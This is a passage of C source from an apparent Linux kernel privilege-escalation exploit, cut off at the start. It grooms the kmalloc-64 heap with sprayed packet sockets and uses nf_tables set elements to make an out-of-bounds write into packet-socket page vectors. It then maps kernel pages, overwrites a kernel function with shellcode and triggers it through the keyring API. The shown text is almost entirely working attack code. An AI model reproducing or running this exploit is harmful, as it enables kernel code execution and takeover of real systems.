packet_fds[N_SPRAY_PACKET_SOCK] = {}; int fenshui_packet_fds[N_SPRAY_FENSHUI_PACKET_SOCK] = {}; printf("[+] simple kmalloc-64 fenshui\n"); for (int i = 0; i < N_SPRAY_FENSHUI_PACKET_SOCK; i++) { if (i != 0 && i % 0x10 == 0) { printf("[!] %x/%x done\n", i, N_SPRAY_FENSHUI_PACKET_SOCK); } fenshui_packet_fds[i] = pagealloc_pad(5, 0x1000); } printf("[+] spraying packet sock\n"); for (int i = 0; i < N_SPARY_PACKET_SOCK_HOLE; i++) { if (i != 0 && i % 0x10 == 0) { printf("[!] %x/%x done\n", i, N_SPARY_PACKET_SOCK_HOLE); } packet_fds[i] = pagealloc_pad(5, 0x1000); } for (int i = 0; i < N_SPRAY_PACKET_SOCK; i += N_SPARY_PACKET_SOCK_HOLE) { close(packet_fds[i]); packet_fds[i] = 0; } printf("[!] ready to oob write\n"); struct pg_vec_write_payload write_payload; write_payload.buff[0] = user_free_payload_rcu_addr; write_payload.buff[1] = write_payload.buff[0] + PAGE_SIZE; write_payload.buff[2] = write_payload.buff[1] + PAGE_SIZE; write_payload.buff[3] = write_payload.buff[2] + PAGE_SIZE; write_payload.buff[4] = write_payload.buff[3] + PAGE_SIZE; ntry = 50; while (1) { add_elem_to_nft_set(nlsock, WRITE_SET_NAME, KMALLOC64_KEYLEN, TABLENAME, 7331, sizeof(struct pg_vec_write_payload), (uint8_t *)&write_payload); for (int i = 0; i < N_SPRAY_PACKET_SOCK; i++) { if (!packet_fds[i]) { continue; } char *page = (char *)mmap(NULL, PAGE_SIZE * 5, PROT_READ | PROT_WRITE, MAP_SHARED, packet_fds[i], 0); if (!page || (size_t)page < 0) { fprintf(stderr, "[!] mmap error: %p\n", page); continue; } int j; for (j = 0x30; j < 0x1000; j++) { if (page[j] != 0) { break; } } if (j != 0x1000) { printf("[+] found non empty page\n"); void *func_pos = (uint64_t *)&page[user_free_payload_rcu_addr & 0xFFF]; uint8_t original_code[sizeof(shellcode)] = {0}; memcpy(original_code, func_pos, sizeof(shellcode)); memcpy(func_pos, shellcode, sizeof(shellcode)); key_serial_t fd = key_alloc("trigger shellcode", "DEADBEEF", 8); key_revoke(fd); memcpy(func_pos, original_code, sizeof(shellcode)); } } if (ntry) { ntry--; } else { fprintf(stderr, "[-] failed to oob write\n"); exit(2); } } return 0; }